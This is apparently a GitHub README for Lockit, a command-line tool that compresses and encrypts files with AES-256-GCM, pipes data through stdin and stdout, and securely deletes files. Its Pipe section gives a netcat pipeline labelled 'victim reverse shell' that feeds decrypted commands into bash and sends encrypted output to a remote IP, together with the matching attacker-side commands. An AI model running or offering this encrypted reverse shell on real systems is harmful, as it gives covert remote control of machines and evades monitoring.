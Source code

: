 # Lockit
Lock it, unlock it.

⚡ Blazing fast encryption suite.

```bash
./lockit <file> <file2> <dir1>             # Process files in default mode (encrypt/decrypt)
./lockit encrypt <file> <file2> <dir1>     # Encrypt specific files
./lockit encrypt <file> -p                 # Encrypt a file with a custom passphrase.
./lockit encrypt <dir>                     # Encrypt all files in a directory
./lockit decrypt <dir/file>                # Decrypt a file or directory
./lockit encrypt <dir> --dir               # Compress, tar, and encrypt entire directories
./lockit remove/delete/rm/del <dir/file>   # Securely delete a file / directory.
./lockit remove <file> <file2> --skip-dod  # Skip DoD overwrite passes.
./lockit encrypt --pipe                    # Process as pipe.
./lockit decrypt --pipe -p                 # Process as pipe, custom passphrase.
./lockit --encrypt-filenames               # Encrypt file names
./lockit --no-encrypt-filenames            # Keep file names unchanged
./lockit --self-destruct                   # Remove Lockit after use
./lockit --no-self-destruct                # Retain Lockit after use
```

## Pipe
If `--pipe` is specified, the program processes the input from stdin and outputs to stdout instead of handling files or directories.

```bash
echo "Secret message" | ./lockit encrypt --pipe | ./lockit decrypt --pipe
```

That way you can use it with netcat or other tools. 
```bash
nc -lvnp 9999 | ./lockit decrypt --pipe
echo "This is a very secret message" | ./lockit encrypt --pipe | nc localhost 9999
```

You can wrap your reverse shell around it and you'll have it encrypted. Example:
```bash
nc -lvnp 9999 | ./lockit decrypt --pipe | bash 2>&1 | ./lockit encrypt --pipe | nc 192.168.50.160 9998 # 1. victim reverse shell
nc -lvnp 9998 | ./lockit decrypt --pipe # 2. attacker receiving output
./lockit encrypt --pipe | nc 192.168.60.244 9999 # 3. attacker sending commands
```

## Mechanism
- Lockit compresses files using zstd and secures them with AES-256-GCM encryption.
- Lockit provides secure file deletion that follows DoD 5220.22-M standard.

## But I have SSD
Yes, although DoD 5220.22-M short wipe is good enough for most cases, due to SSD wear leveling, you won't be able to remove the data fully using software. The best way to handle this is combination of hardware TRIM erase and cryptographic erasure. Encrypt the disk fully and delete the key. Or use a hammer, as it is the most effective method for 100% lossy compression.

## Installation
```bash
git clone https://github.com/krystianbajno/lockit
cargo build --release
```

## Customizing Default Settings
To change default settings, simply modify `build.rs`.